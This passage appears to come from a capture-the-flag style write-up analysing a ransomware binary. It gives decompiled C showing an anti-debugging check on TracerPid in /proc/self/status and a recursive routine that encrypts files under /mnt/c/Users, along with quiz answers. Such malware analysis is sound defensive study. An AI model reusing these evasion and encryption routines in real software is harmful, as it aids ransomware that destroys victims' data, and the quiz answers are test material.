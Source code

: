 ```c
            return atoi(v4);
        }
        return -1;
      }
    }
  }
  else
  {
    fclose(0LL);
  }
  return -1;
}
```
##### This function checks the value of `TracerPid` in `/proc/self/status` to determine whether the program is being debugged.

```
TracerPid is a field in /proc/self/status on Linux systems that indicates the process ID (PID) of any debugger currently tracing the process; if the value is 0, it means the process is not being debugged, making it useful for anti-debugging checks in malware or protected applications.
```
#### Q19. What string does the binary look for when looking for a debugger? -> `TracerPid`
#### Q11. The binary appears to check for a debugger, what file does it check to achieve this? -> `/proc/self/status`

##### After the debug check, `main()` continues by calling `sub_4AC39("/mnt/c/Users", &v7)` to encrypt files in this folder.
#### Q9. What was the target directory for the ransomware? -> `/mnt/c/Users`

```c
__int64 __fastcall sub_4AC39(const char *a1, __int64 a2)
{
  DIR *v2; // rbp
  struct dirent *v3; // rbx
  unsigned __int8 d_type; // al
  char v6[4152]; // [rsp+0h] [rbp-1038h] BYREF

  v2 = opendir(a1);
  if ( !v2 )
    return 1LL;
  while ( 1 )
  {
    v3 = readdir(v2);
    if ( !v3 )
      break;
    raise(11);
    snprintf(v6, 0x1000uLL, "%s/%s", a1, v3->d_name);
    d_type = v3->d_type;
    if ( d_type == 4 )
    {
      if ( !(unsigned int)sub_4ABF9(v3->d_name) )
        sub_4AC39(v6, a2);
    }
    else if ( d_type == 8 )
    {
      if ( (unsigned int)sub_4AB61(v6) )
        sub_4A955(a2, v6);
    }
  }
```